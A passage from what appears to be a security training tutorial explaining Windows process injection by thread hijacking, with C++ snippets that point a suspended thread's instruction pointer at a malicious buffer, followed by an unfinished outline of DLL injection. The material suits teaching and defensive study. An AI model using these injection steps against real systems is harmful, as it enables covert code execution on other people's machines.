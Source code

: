 ```cpp
SuspendThread(hThread);
```

At step seven, we need to obtain the thread context to use in the upcoming API calls. This can be done using `GetThreadContext` to store a pointer.

```cpp
CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);
```

At step eight, we need to overwrite RIP (Instruction Pointer Register) to point to our malicious region of memory. If you are not already familiar with CPU registers, RIP is an x64 register that will determine the next code instruction; in a nutshell, it controls the flow of an application in memory. To overwrite the register we can update the thread context for RIP.

```cpp
context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation
```

At step nine, the context is updated and needs to be updated to the current thread context. This can be easily done using `SetThreadContext` and the pointer for the context.

```cpp
SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);
```

At the final step, we can now take the target thread out of a suspended state. To accomplish this we can use `ResumeThread`.

```cpp
ResumeThread(
	hThread // Handle for the thread
);
```

We can compile these steps together to create a process injector via thread hijacking. Use the C++ injector provided and experiment with thread hijacking.


## Abusing DLLs

DLL Injectiont can be broken into: 
1. Locate a target process to inject.
2. Open the target process
3. Allocate memory region for malicious DLL
4. Write the malicious DLL to allocated memory
5. Load and execute the malicious DLL
6. 

